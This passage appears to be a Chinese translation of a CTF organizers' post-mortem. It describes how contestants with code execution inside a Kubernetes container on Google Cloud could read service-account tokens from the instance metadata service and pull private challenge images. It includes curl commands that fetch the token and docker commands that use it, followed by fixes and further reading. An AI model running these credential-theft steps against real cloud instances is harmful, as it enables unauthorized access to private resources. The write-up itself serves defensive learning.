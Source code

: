 这是我们犯第二个错误的地方。Google 平台上的私有 docker 注册表只是 Google 云存储中的一个桶。集群中的节点需要能够从注册表中提取，因此只读凭证通过在[实例元数据](https://cloud.google.com/compute/docs/storing-retrieving-metadata#querying)中传递的服务帐户凭证提供给节点，这些凭证可通过在`[http://169.254.169.254](http://169.254.169.254)` 监听的 http 服务提供给节点。不幸的是，我们在计划时忽略了这个重要的细节。因为我们的一些容器将标志嵌入到映像中，而不是作为卷安装，所以有可能在其中一个挑战中使用远程代码执行漏洞来读取服务帐户凭据，然后提取我们的容器。

**如何偷旗:**

使用 RCE 或 SSRF，攻击者会向元数据服务发出请求，获取默认的服务帐户电子邮件和访问令牌。

```
# Assuming you have code execution within the container$ curl [http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/email](http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/email)something-something@developer.gserviceaccount.com$ curl -s [http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token](http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token){"access_token": "something-something", "expires_in":1881,"token_type":"Bearer"}
```

使用这两条信息，您可以使用 Docker 直接从我们的私有注册表中提取图像。

```
# Using the credentials you have stolen from the previous steps
$ docker login -e <email> -u oauth2accesstoken -p "<access token>" [https://gcr.io](https://gcr.io)$ docker pull gcr.io/bsides-ctf-2017/zumbo# Extract flags from container..
```

这假设您有一些内部知识:我们项目的名称和图像名称，这两个名称都不会太难猜测，并且可能通过其他方式发现。

**修复此问题**

我们可以通过确保所有挑战资源(标志、二进制文件、源代码等)来避免这个问题。)通过安装的卷添加到容器中。如果我们对所有的挑战都这样做，我们的图像基本上可以是公开的——提取它们不会给 CTF 参与者带来任何有趣的东西。对于我们的一些挑战来说，从图像中完全删除私有资源是很困难的。更理想的设置是拒绝从容器内部访问元数据服务。我还没有尝试过这一点，但是通过使用像 Lyft 的 metadataproxy 这样的工具来代理从容器到元数据服务的连接，这可能是可以实现的。

**牵连**

与前一个问题不同，这当然不是一个不安全的默认，而是这个平台是如何设计工作的。它并不局限于 GKE，谷歌云和 AWS 都依赖 http 服务作为向实例分发元数据和某些秘密的方法，使这些秘密可供机器上运行的任何进程使用。在这些平台上进行构建时，了解这一点绝对是非常有用的。

# 结论

这是一个有趣的实验，但我们可能不会在我们的下一个 CTF 中使用相同的设置。虽然 Kubernetes 使得一切都可以很容易地启动和运行，但它增加了大量的复杂性和攻击面。从根本上说，它不是为运行不受信任的代码而设计的，因此，在威胁模型涉及让攻击者执行任意代码的情况下，它可能不是捕获标志的好选择。

# 更多阅读

为了更好地概述 GKE 上容器的进一步加固选项以及 Kubernetes [安全](https://hackernoon.com/tagged/security)路线图，请查看 [Alex Mohr 和 Jessie Frazelle 在 Google Next 2017 上的演讲](https://www.youtube.com/watch?v=Cd4JU7qzYbE)。这是一个非常精彩的演讲，我很遗憾它没有在两个月前发表。

保护自托管 Kubernetes 集群本身就是一件棘手的事情，我所见过的最好的指导来自 [Jesse Endahl 在 BsidesSF 2017](https://www.youtube.com/watch?v=BER8uridVIs) 上的演讲。Kelsey Hightower 还维护了一个很棒的关于建立 Kubernetes 集群的教程[。](https://github.com/kelseyhightower/kubernetes-the-hard-way)

如果你想了解更多关于 Docker 安全模型和容器安全性的知识，请查看 NCC 关于容器安全性的白皮书。
